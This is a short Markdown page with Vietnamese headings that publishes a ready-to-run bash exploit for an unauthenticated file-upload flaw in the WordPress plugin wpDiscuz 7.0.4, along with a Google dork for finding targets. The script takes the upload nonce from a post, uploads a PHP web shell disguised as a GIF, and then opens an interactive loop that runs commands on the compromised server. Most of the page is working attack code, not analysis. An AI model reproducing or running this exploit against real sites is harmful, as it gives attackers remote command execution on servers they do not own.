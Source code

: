 ```yaml
---
title: Wordpress Plugin wpDiscuz 7.0.4 - Arbitrary File Upload (Unauthenticated)
date: 7/6/2021
layout: single
header:
  teaser: /assets/images/wordpress.png
--- 
```


# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-bash-blue.svg)](https://www.gnu.org/software/bash/)

## Mô Tả 
+ Liên kết zip: [wpdiscuz.7.0.4.zip](https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip)
+ Tác giả gốc: Chloe Chamberland 
+ Tác giả khai thác: Juampa Rodríguez aka UnD3sc0n0c1d0
+ Phiên bản: 7.0.4
+ Google Dork: inurl:/wp-content/plugins/wpdiscuz/ 


## Run 
```shell
exploit.sh http://target/index.php/2021/06/06/post
```
## Bash

```bash
#!/bin/bash

if [ -z $1 ]
then
  echo -e "\n[i] Usage: exploit.sh [IP] [/index.php/2021/06/06/post]\n"
  exit 0
elif [ -z $2 ]
then
  echo -e "\n[i] Usage: exploit.sh [IP] [/index.php/2021/06/06/post]\n"
  exit 0
else

post=$(curl -sI http://$1$2/ | head -n1)

if [[ "$post" == *"200 OK"* ]]; then
    wmu_nonce=$(curl -s http://$1$2/ | sed -r "s/wmuSecurity/\nwmuSecurity/g" | grep wmuSecurity | cut -d '"' -f3)
    webshell=$(curl -isk -X 'POST' -H 'X-Requested-With: XMLHttpRequest' -H 'Content-Type: multipart/form-data; boundary=---------------------------WebKitFormBoundaryUnD3s' --data-binary $'-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"action\"\x0d\x0a\x0d\x0awmuUploadFiles\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmu_nonce\"\x0d\x0a\x0d\x0a'$wmu_nonce$'\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmuAttachmentsData\"\x0d\x0a\x0d\x0aundefined\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"wmu_files[0]\"; filename=\"a.php\" Content-Type: image/jpeg\x0d\x0a\x0d\x0aGIF8\x0d\x0a<?php\x0d\x0aif(isset($_REQUEST[\'cmd\'])){\x0d\x0a        $cmd = ($_REQUEST[\'cmd\']);\x0d\x0a        system($cmd);\x0d\x0a        die;\x0d\x0a}\x0d\x0a?>\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s\x0d\x0aContent-Disposition: form-data; name=\"postId\"\x0d\x0a\x0d\x0a18\x0d\x0a-----------------------------WebKitFormBoundaryUnD3s--\x0d\x0a' http://$1/wp-admin/admin-ajax.php | sed 's/\":"\http/\nhttp/g' | grep "http\:\\\\/" | cut -d '"' -f1 | sed 's/\\//g')

    echo -e "\nWebshell:" $webshell"\n"
    echo -e "--------------WIN--------------"
    echo -e "        ¡Got  webshell!        "
    echo -e "-------------------------------\n"
    while :
    do
    read -p '$ ' command
    curl -s $webshell?cmd=$command | grep -v GIF8
done
else
    echo -e "\n[!] The indicated post was not found\n"
fi
fi
```



## Chúc May Mắn :D
